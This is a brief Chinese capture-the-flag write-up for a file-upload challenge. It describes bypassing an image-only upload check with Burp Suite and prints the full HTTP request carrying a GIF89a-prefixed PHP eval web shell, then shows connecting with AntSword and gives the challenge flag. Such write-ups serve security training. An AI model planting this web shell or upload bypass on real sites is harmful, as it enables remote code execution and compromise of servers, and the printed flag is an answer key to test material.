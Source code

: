 ## upload1

文件上传的题

直接上传php马 存在报错 ”请上传图片“

----

### Brupsuit 绕过
shell.php 修改后缀名 为 shell.jpg 点上传 Brupsuit 抓包
```http request
POST /index.php HTTP/1.1
Host: 61.147.171.105:50756
Content-Length: 216
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:50756
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY5H4NyVTt0LrOelc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:50756/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryY5H4NyVTt0LrOelc
Content-Disposition: form-data; name="upfile"; filename="shell.jpg"
Content-Type: image/jpeg

GIF89a
<?=eval($_POST['x']);?>
------WebKitFormBoundaryY5H4NyVTt0LrOelc--
```
修改 filename = "shell.php" 后 forward
上传成功

---
### antsword 连接
![img.png](imgs/jpg_php.png)
可以看到 成功上传的php文件
![img.png](imgs/img.png)

---
### flag
$flag="cyberpeace{323a5ab98f676bc4d403f717d7a0662c}";

